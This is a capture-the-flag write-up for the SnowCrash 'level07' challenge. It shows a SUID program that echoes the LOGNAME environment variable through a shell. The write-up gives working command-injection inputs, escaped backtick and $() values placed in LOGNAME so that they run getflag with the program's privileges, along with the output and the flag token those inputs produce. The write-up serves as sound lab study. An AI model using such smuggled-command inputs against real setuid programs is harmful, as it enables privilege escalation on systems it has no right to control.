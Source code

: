 # Level07

In this level we have a [program](./resources/main.c) in which have a getenv. The environment variable used is `LOGNAME`. 
It is printed using `echo %s\n`. So we can try to expand our `LOGNAME` env variable to execute `getflag` program.

In previous level we have find that [backquote/backtick](https://unix.stackexchange.com/questions/27428/what-does-backquote-backtick-mean-in-commands) are used to interprete string as command system like `$()`;

```bash
level07@SnowCrash:~$ LOGNAME=`getflag` ./level07 
Check flag.Here is your token :
sh: 2: Syntax error: ")" unexpected
```

Our variable is called but is interpreted directly without permission. It's not our choice.  
We want that the program `level07` interpreted our command because it has permissions (SUID is set).  
So to avoid that the variable being immediatly expand we can escape.  

```bash
level07@SnowCrash:~$ LOGNAME=\$\(getflag\); ./level07 
Check flag.Here is your token : fiumuikeil55xe9cu4dood66h
level07@SnowCrash:~$ LOGNAME=\`getflag\`; ./level07 
Check flag.Here is your token : fiumuikeil55xe9cu4dood66h
level07@SnowCrash:~$ LOGNAME='`/bin/getflag`' ./level07
Check flag.Here is your token : fiumuikeil55xe9cu4dood66h
```
25749xKZ8L7DkSCwJkT9dyv6f
